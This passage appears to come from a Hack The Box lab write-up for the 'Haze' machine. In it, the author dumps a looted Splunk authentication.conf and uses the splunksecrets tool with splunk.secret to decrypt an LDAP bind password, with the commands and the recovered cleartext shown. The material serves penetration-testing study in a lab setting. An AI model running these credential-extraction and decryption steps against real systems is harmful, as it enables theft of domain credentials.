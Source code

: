 #### Authentication credentials

I enumerated the files and found a `$1$` encrypted password for `alexander.green`.
```
fcoomans@kali:~/htb/haze/loot$ cat Splunk/var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf
[default]

minPasswordLength = 8
minPasswordUppercase = 0
minPasswordLowercase = 0
minPasswordSpecial = 0
minPasswordDigit = 0


[Haze LDAP Auth]

SSLEnabled = 0
anonymous_referrals = 1
bindDN = CN=alexander.green,CN=Users,DC=haze,DC=htb
bindDNpassword = $1$YDz8WfhoCWmf6aTRkA+QqUI=
charset = utf8
emailAttribute = mail
enableRangeRetrieval = 0
groupBaseDN = CN=Splunk_Admins,CN=Users,DC=haze,DC=htb
groupMappingAttribute = dn
groupMemberAttribute = member
groupNameAttribute = cn
host = dc01.haze.htb
nestedGroups = 0
network_timeout = 20
pagelimit = -1
port = 389
realNameAttribute = cn
sizelimit = 1000
timelimit = 15
userBaseDN = CN=Users,DC=haze,DC=htb
userNameAttribute = samaccountname

[authentication]
authSettings = Haze LDAP Auth
authType = LDAP
```

`splunksecrets` was once again used to decrypt the encrypted password using the `/etc/auth/splunk.secret` file.  The decrypted password is `Sp1unkadmin@2k24`.
```
fcoomans@kali:~/htb/haze/loot$ . ../splunksecrets/bin/activate

(splunksecrets)fcoomans@kali:~/htb/haze/loot$ splunksecrets splunk-decrypt -S Splunk/etc/auth/splunk.secret --ciphertext '$1$YDz8WfhoCWmf6aTRkA+QqUI='
Sp1unkadmin@2k24

(splunksecrets)fcoomans@kali:~/htb/haze/loot$ deactivate
```
